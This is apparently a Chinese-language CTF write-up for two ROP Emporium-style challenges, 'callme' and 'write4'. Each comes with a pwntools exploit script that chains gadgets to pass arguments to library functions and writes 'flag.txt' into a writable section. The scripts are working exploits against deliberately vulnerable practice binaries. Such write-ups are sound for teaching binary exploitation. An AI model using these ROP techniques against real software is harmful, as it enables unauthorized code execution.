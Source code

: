 # 3. callme

这道题需要调用自定义库中的三个函数，这3个函数首先都对传入的前三个参数进行了检查。我们只需要在ROP里面将参数传进去即可。

payload:

```python
from pwn import *

io = process('./callme')
elf = ELF('./callme')

rdi = 0x4009a3
rsirdx = 0x40093d

payload = cyclic(32 + 8)
payload += p64(rdi) + p64(0xdeadbeefdeadbeef)
payload += p64(rsirdx) + p64(0xcafebabecafebabe) + p64(0xd00df00dd00df00d)
payload += p64(elf.plt['callme_one'])
payload += p64(rdi) + p64(0xdeadbeefdeadbeef)
payload += p64(rsirdx) + p64(0xcafebabecafebabe) + p64(0xd00df00dd00df00d)
payload += p64(elf.plt['callme_two'])
payload += p64(rdi) + p64(0xdeadbeefdeadbeef)
payload += p64(rsirdx) + p64(0xcafebabecafebabe) + p64(0xd00df00dd00df00d)
payload += p64(elf.plt['callme_three'])

io.sendlineafter(b'> ', payload)
io.interactive()
```

# 4. write4

这一题虽然有一个print_file函数，但是对应的参数在write4文件中没有给出，需要我们自己构造。仔细使用IDA观察会发现，程序特地给了我们一个gadget实现任意地址写。bss段或data段能够作为我们构造的字符串'flag.txt'的存放位置，那么我们就将这个字符串写到这些可写段中，再将其作为参数传入print_file函数即可。

payload:

```python
from pwn import *
context.log_level='debug'

io = process('./write4')
elf = ELF('./write4')
useful_gadget = 0x400628
r14r15 = 0x400690
rdi = 0x400693
write_addr = 0x601028
main_addr = 0x400607

payload = cyclic(32 + 8)
payload += p64(r14r15) + p64(write_addr) + b'flag.txt'
payload += p64(useful_gadget)
payload += p64(r14r15) + p64(write_addr + 8) + p64(0)
payload += p64(useful_gadget)
payload += p64(rdi) + p64(write_addr)
payload += p64(elf.plt['print_file'])

io.sendlineafter(b'> ', payload)

io.interactive()
```
